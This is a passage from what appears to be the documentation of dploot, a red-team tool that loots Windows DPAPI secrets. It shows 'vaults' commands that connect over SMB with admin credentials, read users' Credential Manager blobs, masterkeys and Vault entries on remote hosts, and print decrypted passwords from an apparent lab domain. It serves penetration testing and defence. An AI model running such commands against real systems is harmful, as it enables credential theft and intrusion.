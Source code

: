 ```text
Target      : Domain:target=test
Description :
Unknown     :
Username    : test
Unknown     : Password#{123}

[*] Found Credential Manager blob: \\192.168.57.5\C$\Users\jsmith\AppData\Local\Microsoft\Credentials\B7940EED205293A0414498F8F866E091
[CREDENTIAL]
LastWritten : 2022-04-27 19:23:02
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000002 (CRED_PERSIST_LOCAL_MACHINE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=TERMSRV/srv01.waza.local
Description :
Unknown     :
Username    : DESKTOP-I60R2L6\Administrator
Unknown     : Password!123
```

#### vaults

The **vaults** command will search for users Vaults secrets and decrypt them with `-mkfile FILE` of one or more {GUID}:SHA1, or with `-passwords FILE` combo of user:password, `-nthashes` combo of user:nthash or a `-pvk PVKFILE` to first decrypt masterkeys.

With `mkfile`:

```text
$ dploot vaults waza.local/jsmith:Password#123@192.168.56.14 -mkfile waza.local.mkf
[*] Connected to 192.168.56.14 as waza.local\jsmith (admin)
[*] Triage Vaults for ALL USERS

[*] Found Vault Directory: \\192.168.56.14\C$\Users\jsmith\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

[VAULT_VPOL_KEYS]
Key1: 0x552f5d5b454d3a53aec4ff458539de02
Key2: 0x5565757b5acd988e1a7377030fbe7098bff3e98050ae9bca458fe554b9e2586b

[Internet Explorer]
Username        : test
Resource        : http://testphp.vulnweb.com/
Password        : b'74006500730074000000'

Decoded Password: test
```

With `pvk`:

```text
$ dploot vaults waza.local/jsmith:Password#123@192.168.56.14 -pvk key.pvk
[*] Connected to 192.168.56.14 as waza.local\jsmith (admin)
[*] Triage ALL USERS masterkeys

[*] Found MasterKey: \\192.168.56.14\C$\Users\jsmith\AppData\Roaming\Microsoft\Protect\S-1-5-21-267175082-2660600898-836655089-1103\d305b55b-f0ca-40cf-b04c-3620aa5da427
[*] Found MasterKey: \\192.168.56.14\C$\Users\pigeon\AppData\Roaming\Microsoft\Protect\S-1-5-21-448572974-3439994363-1960186206-1001\f03e5af7-a6c0-4018-9fad-3391273952be
{d305b55b-f0ca-40cf-b04c-3620aa5da427}:6f45f9ee77014df8a68104abd0e8d5eadb3d9f22
[*] Triage Vaults for ALL USERS

[*] Found Vault Directory: \\192.168.56.14\C$\Users\jsmith\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

[VAULT_VPOL_KEYS]
```